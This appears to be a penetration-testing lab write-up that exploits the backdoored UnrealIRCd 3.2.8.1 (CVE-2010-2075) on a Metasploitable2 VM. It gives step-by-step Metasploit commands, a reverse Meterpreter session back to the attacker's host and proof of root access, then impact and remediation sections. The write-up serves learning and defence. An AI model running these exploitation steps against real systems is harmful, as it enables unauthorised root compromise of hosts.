



# UnrealIRCd 3.2.8.1 — Backdoor Command Execution

**CVE:** CVE-2010-2075
**Target:** Metasploitable2 (10.0.2.3)
**Date:** August 2026
**Severity:** Critical

## Summary

UnrealIRCd 3.2.8.1, as bundled with Metasploitable2, was compromised at the distribution level: between November 2009 and June 2010, the official `Unreal3.2.8.1.tar.gz` archive was replaced with a backdoored version on some mirrors, allowing arbitrary remote command execution. This writeup builds on Writeup #1 by targeting a distinctly different service and delivery mechanism (IRC protocol registration, vs. FTP username-based trigger).

## 1. Reconnaissance

The earlier full port scan (Writeup #1) had already identified the IRC service:

```
6667/tcp  open  irc  UnrealIRCd
6697/tcp  open  irc  UnrealIRCd
```

## 2. Vulnerability Identification

Searched Metasploit's module database for a matching exploit:

```
msf > search unrealircd
```


*Metasploit search results confirming exploit/unix/irc/unreal_ircd_3281_backdoor (rank: excellent).*

The module `exploit/unix/irc/unreal_ircd_3281_backdoor` was found with an **excellent** reliability rank, confirming a known, stable exploit for this exact service version.

## 3. Exploitation Setup

Loaded the module and verified its options before launch:

```
use exploit/unix/irc/unreal_ircd_3281_backdoor
set RHOSTS 10.0.2.3
show options
```


*Module options confirming RHOSTS 10.0.2.3 and RPORT 6667, matching the IRC service found during reconnaissance.*

Unlike the FTP exploit in Writeup #1, this module targets port 6667 — the standard IRC port — confirming the vulnerability is delivered through the IRC protocol itself rather than FTP.

## 4. Exploitation

With LHOST configured, the exploit was launched:

```
set LHOST 10.0.2.15
run
```


*Exploit execution: Metasploit registers as an IRC user, detects the backdoor after registration, and sends the hidden backdoor command.*

```
[+] 10.0.2.3:6667 - The target appears to be vulnerable.
[*] 10.0.2.3:6667 - Sending IRC backdoor command
[*] Meterpreter session 1 opened (10.0.2.15:4444 -> 10.0.2.3:54574)
```

The exploit worked by connecting to the IRC service as a normal client, completing registration, then sending a specially crafted command that the backdoored code recognized and executed on the underlying OS. This is a meaningfully different delivery mechanism from Writeup #1's FTP username-based trigger — here, the payload is smuggled in through what looks like normal IRC client registration traffic.

## 5. Post-Exploitation — Verifying Access

Access level was confirmed the same way as in Writeup #1:

```
shell
whoami
id
```

Output confirmed full root access:

```
whoami → root
id → uid=0(root) gid=0(root)
```

## 6. Impact

As with the FTP backdoor, this vulnerability grants complete compromise of the host, allowing an attacker to:
- Execute arbitrary commands with full root privileges via a chat-protocol connection
- Access and exfiltrate any data stored on the server
- Use the compromised IRC server as a foothold to pivot deeper into a network
- Recruit the host into a botnet — a common real-world outcome of this specific CVE, historically used to build IRC-controlled botnets

## 7. Remediation

- Never install software from unverified mirrors — always confirm checksums/signatures against the official source
- Upgrade UnrealIRCd to a current, patched version
- Restrict IRC service exposure to trusted networks only, or disable it if unused
- Monitor for unusual outbound connections following any protocol handshake, not just HTTP-based traffic

## References

- [CVE-2010-2075](https://nvd.nist.gov/vuln/detail/CVE-2010-2075)
